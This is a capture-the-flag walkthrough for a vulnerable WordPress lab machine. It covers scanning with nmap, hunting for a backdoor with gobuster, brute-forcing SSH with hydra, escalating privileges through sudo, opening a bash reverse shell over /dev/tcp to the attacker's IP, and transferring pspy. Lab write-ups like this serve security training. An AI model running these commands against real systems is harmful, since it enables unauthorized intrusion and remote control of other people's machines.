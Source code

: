 # Capture the Flag Walkthrough

## Initial Setup

### Attacker Machine
- Kali Linux with two network adapters:
  - Host-only adapter (for target machine connection)
  - NAT adapter (for internet access)

### Target Machine
- Vulnerable machine with one Host-only network adapter
- Note: Host-only networking handles DHCP automatically

## Finding the Target

1. **Identify Kali machine's IP address:**
```bash
hostname -I
```

2. **Scan network for target machine:**
```bash
sudo nmap -v --min-rate 10000 $targetIP/24 | grep open
```
> Replace $targetIP with your Kali machine's private IP

3. **Detailed target scan:**
```bash
sudo nmap -v -sV -sC -oN nmap $targetIP
```
Parameters:
- `-v`: Verbose output
- `-sV`: Service versioning
- `-sC`: Script scan for vulnerabilities
- `-oN`: Save output to "nmap" file

## Analyzing the Website

1. **Access target website:**
   - Navigate to `http://$targetIP`

2. **Inspect source code:**
   - Look for WordPress indicators
   - Check for dns-prefetch tag (//s.w.org)

3. **Fix DNS resolution:**
   - Add to /etc/hosts:
```bash
$targetIP    redrocks.win
```

## Uncovering the Backdoor

1. **Explore website:**
   - Check "Hello Blue" link
   - Look for "Looking For It?" message

2. **Use Gobuster for backdoor discovery:**
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/CommonBackdoors-PHP.fuzz.txt \
  -x .php -u http://redrocks.win/ -o dir80.txt -z
```

## Exploitation Steps

### Initial Access
```bash
hydra -l john -P passlist.txt 192.168.56.102 ssh
sshpass -p 'CURRENT_PASSWORD' ssh john@192.168.56.102
```

### Privilege Escalation Setup
```bash
sudo -u ippsec /usr/bin/time /bin/bash
cd /dev/shm/
```

### Creating Reverse Shell
1. **Create shell script:**
```bash
echo '#!/bin/bash
bash -c '\''bash -i >& /dev/tcp/192.168.56.101/9001 0>&1'\''' > shell.sh
chmod +x shell.sh
```

2. **Set up listener (on attacking machine):**
```bash
nc -lvnp 9001
```

3. **Execute shell (on target machine):**
```bash
./shell.sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Terminal Stabilization
```bash
# Press ctrl+z
stty raw -echo;fg
# Press ENTER twice
export TERM=xterm
```

## Advanced Privilege Escalation with pspy

### On Attacking Machine
```bash
# Download pspy (using v1.2.0 due to GLIBC compatibility)
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s

# Start temporary HTTP server
python3 -m http.server 80
```

### On Target Machine
```bash
wget [TARGETMACHINE IP]/pspy64s
chmod +x pspy64s
./pspy64s
```

## Important Notes
- Always ensure you have proper authorization before performing penetration testing
- These commands should be used responsibly and ethically
- Some steps may need to be adjusted based on specific target configurations
- Always verify commands before execution to prevent unintended consequences

[Additional steps to be documented based on specific CTF requirements]
